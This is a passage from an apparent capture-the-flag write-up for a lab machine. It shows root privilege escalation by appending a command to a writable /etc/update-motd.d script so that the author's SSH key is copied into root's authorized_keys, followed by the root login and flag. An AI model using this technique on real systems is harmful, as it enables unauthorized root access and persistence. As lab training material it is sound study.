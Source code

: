 ```
```

According to the [man pages](http://manpages.ubuntu.com/manpages/trusty/man5/update-motd.5.html), these files are:

> ```

> executed by pam_motd(8) as the root user at
> each  login,  and  this information is concatenated in /var/run/motd.  The order of script
> execution is determined by the run-parts(8) --lsbsysinit  option  (basically  alphabetical
> order, with a few caveats).
>
> ```

I had noted earlier that the attacker changed the MOTD. It seems like an obvious hint (in hindsight). I’ll look in [Beyond Root](#motd-enumeration) at how I could have detected this without the cron.

### Shell

I could add a reverse shell into one of these, but instead I’ll add code to get my public key into `/root/.ssh/authorized_keys`:

```

sysadmin@traceback:/etc/update-motd.d$ echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/" >> 00-header 

```

These files are going to be run when I SSH into the box. So I’ll immediately SSH into the box as webadmin before the 30 second cleanup happens. When I do, the `00-header` script is run, and now my public key should be in root’s `authorized_keys` file.

I’ll SSH in as root:

```

root@kali# ssh -i ~/keys/id_rsa_generated root@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Jan 24 03:43:29 2020
root@traceback:~# 

```

Now I can grab `root.txt`:

```

root@traceback:~# cat root.txt
ccda9e55************************

```
